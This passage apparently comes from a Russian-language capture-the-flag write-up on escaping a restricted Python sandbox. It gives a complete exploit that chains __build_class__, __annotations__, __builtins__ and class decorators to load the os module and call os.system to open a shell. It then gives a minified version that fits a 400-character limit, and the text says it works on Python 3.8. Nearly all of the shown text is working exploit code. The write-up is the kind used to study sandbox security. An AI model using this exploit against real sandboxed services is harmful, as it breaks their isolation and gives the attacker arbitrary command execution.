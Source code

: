 На этом моменте мы выходим в шелл.

### Полный эксплоит без комментариев

```python
__build_class__: ...

for method_name in __annotations__:
    pass

for __builtins__[method_name] in [__builtins__.get]:
    pass

for object_type in [method_name.__class__.__base__]:
    pass

for __builtins__[object_type.__class__.__name__] in [object_type]:
    pass

@object_type.__class__.__subclasses__
@__builtins__.get
class type:
    pass

@type.__getitem__
@method_name.__class__.__sizeof__
class offset_xxxxxxxxxxxxxxxxxxxxxxxxxxxx:
    pass

@offset_xxxxxxxxxxxxxxxxxxxxxxxxxxxx.load_module
class os:
    pass

@os.system
class sh:
    pass
```

Этот эксплоит уже работает на Python 3.8, но он превышает длину 400 символов, поэтому мы его немного минифицируем вручную: вынесем `__builtins__`, переименуем по возможности переменные на односимвольные, заменим `...` и `pass` на `[]`, уберём лишние пробельные символы. Получится что-то вроде этого:

```python
__build_class__:[]
for b in[__builtins__]:[]
for m in __annotations__:[]
for b[m]in[b.get]:[]
for o in[m.__class__.__base__]:[]
for b[o.__class__.__name__]in[o]:[]
@o.__class__.__subclasses__
@b.get
class type:[]
@type.__getitem__
@m.__class__.__sizeof__
class offset_xxxxxxxxxxxxxxxxxxxxxxxxxxxx:[]
@offset_xxxxxxxxxxxxxxxxxxxxxxxxxxxx.load_module
class os:[]
@os.system
class sh:[]
```
